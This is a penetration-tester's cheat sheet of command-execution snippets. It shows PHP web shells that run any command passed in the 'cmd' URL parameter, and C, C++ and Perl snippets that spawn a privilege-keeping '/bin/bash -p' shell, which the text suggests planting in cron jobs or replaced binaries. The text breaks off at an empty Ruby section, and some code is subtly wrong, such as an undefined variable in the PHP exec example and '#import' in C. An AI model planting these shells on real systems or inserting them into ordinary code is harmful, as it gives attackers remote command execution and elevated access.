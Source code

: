# EXEC in Many Languages
This cheat sheet will provide many different examples of how to perform system(), exec(), and more in different web languages. Usage of these code listsings depends on the situation at hand. Sometimes, they can be added into scripts, used to replace binaries call from `cron` or scheduled tasks and much more. The usage is left to the discretion of the penetration tester. 
## WEB LANGUAGES
### PHP
PHP is widely used and can often have the system(), exec(), etc functions eenabled in the php.ini configuration file.
#### Exec()
```
<?php
 exec($_GET['cmd'],$response);
 var_dump($output) # dump entire object to DOM
 ?>
```
#### System()
```
<?php
 echo system($_GET['cmd']); # "echo()s" to the DOM
 ?>
```
#### Passthru()
```
<?php
 passthru($_GET['cmd']); # displays right to the DOM
 ?>
```
### Groovy
Groovy/Java can execute commands and print the output like so,
```
print "cmd /c mvn".execute().text
```
## C LANGUAGES
C and C-family languages usually require compilation, with the exception of JavaScript.
### C - System()
```
#import<stdlib.h>
int main(void){
 system("/bin/bash -p");
 return 0;

}
```
### C++ - System()
```
#include <bits/stdc++.h> 
using namespace std; 
int main(void){
 system("/bin/bash -p");
 return 0;

}
```
## Interpreterd Languages
Sometimes, scripts can also call `system()`
### Perl
```
perl -e 'system("/bin/bash -p");'
```
### Ruby
